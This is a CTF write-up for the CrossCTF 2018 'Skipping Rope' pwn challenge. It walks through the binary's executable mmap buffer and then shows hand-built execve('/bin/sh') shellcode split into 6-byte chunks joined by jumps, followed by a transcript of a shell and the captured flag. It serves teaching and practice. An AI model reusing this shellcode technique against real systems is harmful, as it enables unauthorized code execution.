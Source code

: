 # Skipping Rope

> How high and how fast can you go on the skipping rope?
>  
> nc ctf.pwn.sg 1501
>  
> Creator - amon (@nn_amon)


### Program analysis

The binary is not stripped, and has no PIE. As the assembly will later show, its vulnerability to stack smashing plays no role here as we can execute instructions in the executable `mmap` memory.
```
$ file skippingrope
skippingrope: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=38456d1c9186fddf7bdcacfd49058963a8f23815, not stripped
```
```
checksec skippingrope
[*] '/home/solomonbstoner/Desktop/CTF Guides/xctf 2018/skipping rope/skippingrope'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE
```

Now let's take a look at the assembly of the program. `<main>` only calls `<skipping_rope>`. That is our function of interest.

![xctf_2018_skipping_rope_function_of_interest.png](xctf_2018_skipping_rope_function_of_interest.png)


The function calls `mmap(0, 0x2000, 7, 0x22, 0xffffffff, 0)`. The argument `7` is a binary OR of `PROT_EXEC | PROT_READ | PROT_WRITE`, meaning the mapped memory is readable, writable and executable.

`mmap` returns the memory address of the mapped memory. In this case it returns `0x7ffff7ff5000`. `info proc mappings` show the mapped memory.
```
(gdb) p/x $rax
$1 = 0x7ffff7ff5000
(gdb) info proc mappings
process 8944
Mapped address spaces:

          Start Addr           End Addr       Size     Offset objfile
      [...]
      0x7ffff7ff5000     0x7ffff7ff7000     0x2000        0x0 
      [...]
```

The screenshot below shows that the function reads user input into the first 6 bytes of every 16 bytes of the mapped memory. A total of 1536 bytes are read. 

![xctf_2018_skipping_rope_reading_into_memory.png](xctf_2018_skipping_rope_reading_into_memory.png)


After reading user input, the function executes user input starting at the beginning of the mapped memory space.

![xctf_2018_skipping_rope_after_reading.png](xctf_2018_skipping_rope_after_reading.png)

Given an input `"AAAAA....AAAA"`, this is how the mapped memory looks like.
```
(gdb) x/32wx $rdx
0x7ffff7ff5000:	0x41414141	0x00004141	0x00000000	0x00000000
0x7ffff7ff5010:	0x41414141	0x00004141	0x00000000	0x00000000
0x7ffff7ff5020:	0x41414141	0x00004141	0x00000000	0x00000000
0x7ffff7ff5030:	0x41414141	0x00004141	0x00000000	0x00000000
0x7ffff7ff5040:	0x41414141	0x00004141	0x00000000	0x00000000
0x7ffff7ff5050:	0x41414141	0x00004141	0x00000000	0x00000000
0x7ffff7ff5060:	0x41414141	0x00004141	0x00000000	0x00000000
0x7ffff7ff5070:	0x41414141	0x00004141	0x00000000	0x00000000
(gdb) 
```
We received segfault soon after as `rip` was loaded with `0x4141414141414141`. Next stop was to find the appropriate instructions input so that upon execution, we'd get a shell.

### Successful exploit

Initially the plan was to use `read` to read over the remaining 10 bytes in the mapped memory that was not written earlier to make it easier to include a binsh shell. It did not work. `syscall` did not even call `read` at all. (Well... its returned value showed 0x0, which means the read should have been successful, but the memory it was supposed to read into showed no changes.

Then we thought to use `execve('sh', null, null)` to get the bash shell. (because `push 0x0068732f6e69622f` takes more than 6 bytes). `syscall` returned either -14 or -2, and no shell was executed.

Pushing values by bytes (e.g. `push 0x00; push 0x68; push 0x73;` etc) does not work as well. `RSP` decreases by QWORD for each `push`, so there are alot of null bytes in between the characters.

Lastly we realised we could `mov` the string `'/bin/sh'` into a register byte by byte before pushing the register's value into the stack. This is how we managed to call `execve('/bin/sh', null, null)` with assembly instructions less than 4 bytes. We cannot use all 6 bytes because the last 2 bytes are used for the `jmp` instruction to jump to the next 6 bytes. 
```
xor rax, rax
jmp #0xc


mov al, 0x68
mov ah, 0x00			# rax = 0x0000000000000068
jmp #0xc                # opcode is \xeb\x0a

shl rax, 16
jmp #0xc

mov al, 0x2f
mov ah, 0x73			# rax = 0x000000000068732f
jmp #0xc

shl rax, 16
jmp #0xc

mov al, 0x69
mov ah, 0x6e			# rax = 0x00000068732f6e69
jmp #0xc

shl rax, 16
jmp #0xc

mov al, 0x2f
mov ah, 0x62			# rax = 0x0068732f6e69622f
jmp #0xc

push rax
mov rdi, rsp
jmp #0xc

xor rax, rax
jmp #0xc

mov ax, 0x3b
jmp #0xc

xor rsi, rsi
jmp #0xc

xor rdx, rdx
jmp #0xc

syscall
```

The whole Python script we created is in `soln_for_skipping_rope.py`. After running the script, we got a shell and the flag.
```
$ python2 soln_for_skipping_rope.py 
[+] Opening connection to ctf.pwn.sg on port 1501: Done
[*] Switching to interactive mode
$ whoami
skippingropeuser
$ find . -iname "flag"
find: './root': Permission denied
find: './var/lib/apt/lists/partial': Permission denied
find: './var/spool/cron/crontabs': Permission denied
find: './var/spool/rsyslog': Permission denied
find: './var/cache/ldconfig': Permission denied
find: './var/cache/apt/archives/partial': Permission denied
find: './proc/tty/driver': Permission denied
find: './proc/1/task/1/fd': Permission denied
find: './proc/1/task/1/fdinfo': Permission denied
find: './proc/1/task/1/ns': Permission denied
find: './proc/1/fd': Permission denied
find: './proc/1/map_files': Permission denied
find: './proc/1/fdinfo': Permission denied
find: './proc/1/ns': Permission denied
./home/skippingropeuser/flag
$ cat ./home/skippingropeuser/flag
CrossCTF{With_a_hip_hop_the_hippie_to_the_hippie}
```
